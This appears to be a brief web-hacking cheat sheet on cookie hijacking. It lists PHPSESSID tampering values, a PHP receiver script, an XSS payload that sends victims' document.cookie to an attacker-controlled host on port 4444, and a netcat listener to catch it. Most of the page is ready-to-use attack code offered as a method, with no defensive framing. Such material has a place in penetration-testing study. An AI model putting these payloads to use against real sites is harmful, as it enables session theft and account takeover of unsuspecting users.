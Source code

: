 ```yaml
---
title: Cookie Hijacking
description: A methodology of manipulating, grabbing cookies.
tags:
    - Web
refs:
date: 2022-12-01
draft: false
---
```


## Cookie Manipulation

```html
Cookie: PHPSESSID=0
Cookie: PHPSESSID=1
Cookie: PHPSESSID=999

<!-- ASCII Hex -->
Cookie: PHPSESSID=3836382d61646d696e
```

<br />

## PHP Cookie Grabbing with XSS

In your local machine, create the payload for grabbing the cookie when the other user will access your machine.  

```php
// steal_cookie.php

<?php echo $_GET['cookie']; ?>
```

Create the JavaScript code to force users to access your machine which shows the victim's cookie value.

```javascript
<script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
```

POST request with this JavaScript code to the target web page.  
Open listner in your local machine and wait for the other users will access the target web page.

```sh
nc -lvnp 4444
```